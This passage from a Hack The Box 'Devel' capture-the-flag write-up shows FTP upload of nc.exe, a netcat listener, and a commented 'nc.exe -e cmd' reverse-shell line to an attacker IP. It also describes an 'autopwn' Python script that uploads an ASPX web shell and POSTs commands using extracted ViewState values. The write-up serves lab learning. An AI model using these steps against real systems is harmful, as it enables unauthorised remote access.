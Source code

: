 ```bash
ftp 10.129.52.204
  put nc.exe
sudo rlwrap -cAr nc -nlvp 443
#  C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.84 443            # :( This program cannot be run in DOS mode.
```

<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the help of the **[Hack4u](https://hack4u.io/){:target="_blank"}** community, I was able to take the opportunity of the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** lab to automate the **Engagement** of the box. I found on the internet the `python` library (**[ftplib](https://docs.python.org/es/3.13/library/ftplib.html){:target="_blank"}**) that has all the necessary functions to load the two malicious files I need later to access the machine (`cmdasp.aspx`, `nc.exe`). I perform a successful test that they are being loaded on the server.

```bash
nvim autopwn_ftp.py
ftp 10.129.97.120
  dir
python3 autopwn_ftp.py 10.129.97.120 test test
  dir         # :)
```

<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The second part of the script must send the request by **POST** with the malicious command to execute, but I must first keep in mind to leak the values of the parameters **__VIEWSTATE** and **__EVENTVALIDATION** that I can obtain with the `python` **re** library. Then I perform the execution of a command and analyze what values are sent in the **POST** request, to know all the parameters and the respective values that I must encode in the **autopwn**. Once all the changes are done I open port **443** with `nc` and run the autopwn to get the **Reverse Shell**.

> The **ViewState** is a parameter specific to the **ASP.NET** framework, it's used as a breadcrumb trail when the user navigates the application preserving values and controls between different web pages.
